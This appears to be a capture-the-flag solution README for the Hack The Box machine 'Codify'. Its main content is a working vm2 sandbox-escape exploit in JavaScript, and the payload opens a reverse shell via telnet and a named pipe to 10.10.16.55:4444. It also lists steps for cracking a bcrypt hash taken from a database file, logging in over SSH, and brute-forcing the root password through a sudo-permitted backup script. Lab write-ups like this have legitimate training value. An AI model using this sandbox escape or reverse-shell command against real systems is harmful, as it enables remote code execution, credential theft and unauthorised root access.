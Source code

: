# codify-HTB-solution
For Reverse Shell


    const {VM} = require("vm2");
    const vm = new VM();
    
    const code = `
    err = {};
    const handler = {
        getPrototypeOf(target) {
            (function stack() {
                new Error().stack;
                stack();
            })();
        }
    };
      
    const proxiedErr = new Proxy(err, handler);
    try {
        throw proxiedErr;
    } catch ({constructor: c}) {
        c.constructor('return process')().mainModule.require('child_process').execSync("TF=$(mktemp -u);mkfifo $TF && telnet 10.10.16.55 4444 0<$TF | /bin/bash 1>$TF");
    }
    `
    
    console.log(vm.run(code));


SSH with user Joshua

1. open /var/www/contact/tickets.db in sqlite database browser and get password hash 
2. crack hash (its bcrypt) with rockyou.txt (takes like a minute)
3. SSH into Joshua, /home/Joshua/users.txt


Getting ROOT access

1. get proper shell with **export TERM=xterm**
2. sudo -l and you will find a script in /opt/scripts/mysql-backup.sh
3. bruteforce the root password using script below  (credits to @rwwwshell on breachforums.is)
4. **su root** and enter pass
5. root.txt is in /root/root.txt

I hope you find it cause this shit took me too long
